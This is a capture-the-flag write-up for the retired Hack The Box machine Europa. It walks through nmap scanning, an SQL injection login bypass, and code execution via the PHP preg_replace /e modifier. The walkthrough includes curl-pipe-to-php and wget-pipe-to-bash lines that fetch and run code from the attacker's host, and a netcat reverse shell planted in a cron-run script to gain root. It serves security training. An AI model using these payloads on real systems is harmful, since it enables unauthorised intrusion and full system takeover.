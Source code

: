 # Europa

This is the write-up for the box Europa that got retired at the 2nd December 2017.
My IP address was 10.10.14.28 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.22    europa.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/europa.nmap 10.10.10.22
```

```markdown
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Putting _www.europacorp.htb_ and _admin-portal.europacorp.htb_ into the hosts file.

## Checking HTTP and HTTPS (Port 80 & 443)

When browsing to the web page on HTTP and HTTP with the IP address, the websites only have the default Apache2 installation page.
Checking the SSL certificate we get a potential email address _admin@europacorp.htb_ and the DNS subdomains that Nmap found.

Browsing to the sites on HTTP and HTTPS with the hostname _europacorp.htb_ it still shows the default Apache2 installation page.
The site _admin-portal.europacorp.htb_ on HTTPS shows a login page.

![Login Page](europa_login.png)

When typing in an email address it filters for symbols, so lets try a simple **SQL Injection**:
```markdown
email=admin%40europacorp.htb'-- -&password=test123
```

This gets us logged in on the page and now we see some kind of dashboard:

![Dashboard after login](europa_dashboard.png)

All buttons and links do nothing, except for **Tools** on the left side menu that forwards to some **OpenVPN Config Generator**:

![Tools Page](europa_tools.png)

Any string that gets typed into the input field replaces the _"remote-addres":"ip_address"_ with that input.
The request looks like this:
```markdown
pattern=/ip_address/&ipaddress=tester&text="openvpn": {
        "vtun0": {
                "local-address": {
                        "10.10.10.1": "''"
                },
                "local-port": "1337",
                "mode": "site-to-site",
                "openvpn-option": [
                        "--comp-lzo",
                        "--float",
                        "--ping 10",
                        "--ping-restart 20",
                        "--ping-timer-rem",
                        "--persist-tun",
                        "--persist-key",
                        "--user nobody",
                        "--group nogroup"
                ],
                "remote-address": "ip_address",
                "remote-port": "1337",
                "shared-secret-key-file": "/config/auth/secret"
        },
        "protocols": {
                "static": {
                        "interface-route": {
                                "ip_address/24": {
                                        "next-hop-interface": {
                                                "vtun0": "''"
                                        }
                                }
                        }
                }
        }
}
```

Trying to replace the _pattern=/ip_address/_ with _pattern=/vtun0/_, injection of strings in different parts of the configuration is possible.
We can guess that these slashes are for **regular expressions** and those are created in PHP with the [preg_replace()](https://www.php.net/manual/en/function.preg-replace.php) function.

This function can be used to execute code on the system by adding an **/e** after the pattern and then call the PHP code:
```markdown
pattern=/ip_address/e&ipaddress=system('whoami;')&text="openvpn": {
(...)
```

This pattern executes `whoami` with the result _www-data_ and we got code execution.

### Starting a Reverse Shell

We can upload any PHP reverse shell by starting a web server and sending a `curl` command to our local machine:
```markdown
pattern=/ip_address/e&ipaddress=system('curl http://10.10.14.28/php-reverse-shell.php | php')&text="openvpn": {
(...)
```

Sending this request starts a reverse shell on our listener as _www-data_.

## Privilege Escalation

To get an attack surface it would be useful to start any Linux enumeration script on the box:
```markdown
wget http://10.10.14.28/LinEnum.sh | bash
```

One of the **Cronjobs** is not default and executes the script _/var/www/cronjobs/clearlogs_ every minute which looks like this:
```php
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

The **logcleared.sh** file does not exist but the folder **/var/www/cmd/** is owned by the group _www-data_ and has write permission for it.
So we create this particular file with a command for a reverse shell and make it executable:
```markdown
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 9002 >/tmp/f

chmod +x logcleared.sh
```

After a minute the listener on my IP and port 9002 starts a reverse shell as root!

